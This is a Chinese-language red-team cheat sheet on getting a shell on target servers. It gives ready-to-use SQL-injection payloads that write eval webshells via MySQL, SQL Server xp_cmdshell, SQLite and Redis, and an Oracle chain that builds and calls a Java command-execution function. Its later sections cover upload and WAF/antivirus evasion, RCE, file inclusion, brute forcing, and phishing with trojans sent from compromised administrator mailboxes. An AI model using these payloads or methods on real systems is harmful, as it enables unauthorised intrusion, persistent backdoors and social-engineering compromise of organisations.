 # GetShell思路总结

无论是常规渗透测试还是攻防对抗，亦或黑灰产对抗、APT攻击，getshell 是一个从内到外的里程碑成果。我们接下来总结下常见拿shell的一些思路和方法。

## 注入getshell

一般前提条件：有权限、知道路径

> 当然注入不一定都能拿到webshell，比如站库分离。但不管是否站库分离，只要权限够能够执行系统命令，反弹cmdshell 也是不错的选择。
>
>比如sa权限结合xp_cmdshell 存储过程，直接执行powershell,反弹到cobalt strike …

### mysql

举例

    select 0x3c3f706870206576616c28245f504f53545b615d293b3f3e into outfile '/var/www/html/1.php'
    
> `<?php eval($_POST[a]);?>` 进行十六进制编码后则为3c3f706870206576616c28245f504f53545b615d293b3f3e
 
### Sql server

举例

存储过程xp_cmdshell

    exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > D:\\WWW\\2333.aspx' ;--
 
### Oracle

> oracle成功率受限于与数据库版本以及注入点

举例

1、创建JAVA包

    select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
2、JAVA权限

    select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
    
3、创建函数

    select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
    
URL执行

    id=602'||utl_inadd.get_host_name((select LinxRUNCMD('cmd /c dir d:/') from dual))--
 
### postgresql

举例

    COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
 
### sqlite3

举例

    ;attach database 'D:\\www\\008.php' as tt;create TABLE tt.exp (dataz text) ; insert INTO tt.exp (dataz) VALUES (x'3c3f70687020406576616c28245f504f53545b27636d64275d293b3f3e');
 
### redis

举例

    %0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml2F%0D%0Aconfig%20set%20dbfilename%20shell%2Ephp%0D%0Aset%20x%2022%3C%3Fphp%20phpinfo%28%29%3B%%203F%3E%22%0D%0Asave%0D%0A

## 上传 getWebShell

前台上传点或者后台（通过口令进入、或者XSS到后台、逻辑漏洞越权）上传点

类似直接的上传漏洞就可以getshell的漏洞，例如IIS PUT上传、Tomcat PUT 上传

编辑器（FCK、editor、CKedtor…）存在上传漏洞可以getshell。

这个期间可能涉及逻辑绕过、WAF对抗、杀软绕过、执行层，主要解决四点：

* 代码或逻辑问题，可以上传脚本文件
* 躲过WAF对脚本文件及上传内容的校验
* 解决落地杀
* 执行过程，躲过流量监控或者系统层监控

同样RCE 也需要关注以上后几点，因为前面的入口场景不同。

## RCE getshell

RCE是统称，包括远程代码执行、远程命令执行。

> 当然这两个概念还是有意思的，比如struts2漏洞有的叫命令执行有的叫代码执行。这都不重要。一般根据触发点来命名。

Java系的OGNL 表达式注入、EL注入、反序列化

PHP系列的eval 类、伪协议类 代码执行、system类命令执行

当然反序列化漏洞基本上编程语言都有，除了漏洞利用getshell，用作免杀后门webshell也是一个不错的思路推荐。

正由于代码执行的部分结果是执行了系统命令，在命令执行的加持下，可以直接拿到应用或系统的shell，也是正统策略。

## 包含getWebShell

文件包含，常见JSP、ASPx、PHP 都有包含，但主要还是PHP的包含好用。

因为可以包含任意路径的任意后缀，能控制include类函数的输入结合系统特性文件或者上传的文件结合，可以拿到webshell。

JSP包含，默认情况下动态包含WEB路径下的JSP文件（静态包含可以包含任意后缀的文本文件，但不支持变量动态赋值）

## 系统层getcmdshell

暴力破解的艺术，毕竟锤子开锁和钥匙开锁在入侵角度结果是一样的。

常规协议：SSH、RDP、SMB、VPC、Redis 等中间件类

通过数据库执行语句获得了系统shell，对于获取权限，比sql注入更直接。

设备层：VPN、防火墙，搞定这种边界设备，单车变摩托。

## 钓鱼 getCmdShell

发送钓鱼邮件，捆绑的马，访问即加载、点击即执行类的马。

这一类攻击一般结合社工，例如借用IT管理员发送或某领导的账号去发送

（所以这时候的邮箱的0day就灰常重要了，当然如果在邮箱内部找到类似VPN或者密码表类，也不需要这么麻烦，一把梭…），

可信度就高很多。对于红队来讲，钓的鱼儿还是以IT部门系列为主，普通办公区的主机权限还需要做更多的工作。
